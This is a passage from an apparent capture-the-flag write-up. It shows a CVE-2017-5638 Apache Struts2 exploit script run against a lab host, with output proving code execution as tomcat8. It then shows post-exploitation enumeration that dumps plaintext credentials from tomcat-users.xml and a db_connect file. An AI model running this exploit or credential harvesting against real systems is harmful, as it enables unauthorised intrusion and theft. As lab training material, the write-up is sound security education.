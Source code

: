 

    root@kali# python cve-2017-5638.py http://10.10.10.64/Monitoring/example/Welcome.action "ls -l"
    [*] CVE: 2017-5638 - Apache Struts2 S2-045
    [*] cmd: ls -l

    total 16
    lrwxrwxrwx 1 root    root      12 Sep  3  2017 conf -> /etc/tomcat8
    -rw-r--r-- 1 root    root      68 Oct  2  2017 db_connect
    drwxr-xr-x 2 tomcat8 tomcat8 4096 Sep  3  2017 lib
    lrwxrwxrwx 1 root    root      17 Sep  3  2017 logs -> ../../log/tomcat8
    drwxr-xr-x 2 root    root    4096 May  2 04:46 policy
    drwxrwxr-x 4 tomcat8 tomcat8 4096 Feb 10 21:12 webapps
    lrwxrwxrwx 1 root    root      19 Sep  3  2017 work -> ../../cache/tomcat8

    root@kali# python cve-2017-5638.py http://10.10.10.64/Monitoring/example/Welcome.action "id"
    [*] CVE: 2017-5638 - Apache Struts2 S2-045
    [*] cmd: id

    uid=115(tomcat8) gid=119(tomcat8) groups=119(tomcat8)



w00t! Code execution.

## Local Enumeration

At this point, we'd like to get a better shell, and we'd like to get a
user with more privilege. Here's what we can find:

-   Low priv user, tomcat8, can't access a lot

-   There is a home dir for richard

-   In `/etc/tomcat8/tomcat-users/xml`, there's a username and password:
    -   `<user username="teampwner" password="cd@6sY{f^+kZV8J!+o*t|<fpNy]F_(Y$" roles="manager-gui,admin-gui" />`
    -   those creds don't seem to work on the `/manager` path as
        expected

-   Outbound traffic is heavily filtered - not able to `wget` or `nc` to
    attacker box

-   `ifconfig`, `netstat`, `curl` not on host --\> maybe container? just
    stripped down?

-   more creds in local dir, `/var/lib/tomcat8/db_connect`:

    <div>

    <div>

          [ssn]
          user=ssn_admin
          pass=AWs64@on*&
            
          [users]
          user=admin
          pass=admin
